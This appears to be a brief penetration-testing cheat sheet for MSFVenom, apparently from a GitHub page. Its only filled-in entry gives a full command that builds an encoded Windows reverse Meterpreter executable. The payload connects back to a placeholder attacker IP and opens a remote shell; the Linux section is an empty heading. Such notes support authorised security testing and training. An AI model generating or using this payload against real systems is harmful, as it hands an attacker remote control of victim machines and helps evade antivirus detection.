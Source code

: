 # MSFVenom Cheat Sheet
This sheet is for all of the use-case scenarios in which I have and will use MSFVenom during a penetration test for generating payloads for systems.
## WINDOWS
This section is for all Windows binary creation techniques used with MSFVenom
### Reverse Meterpreter
To make the victim server or system connect back to the attacker and send meterpreter to be spawned by the handler running on the attacker machine.
1. Generate the MSFVenom Reverse Meterpreter payload:

`./msfvenom --platform windows -p windows/meterpreter/reverse_tcp LHOST=(ATTACKER IP) LPORT=6666 -b '\x00' -e x86/shikata_ga_nai -f exe -o /ftphome/shell.exe`

## LINUX
This section is for all LINUX binary creation techniques used with MSFVenom
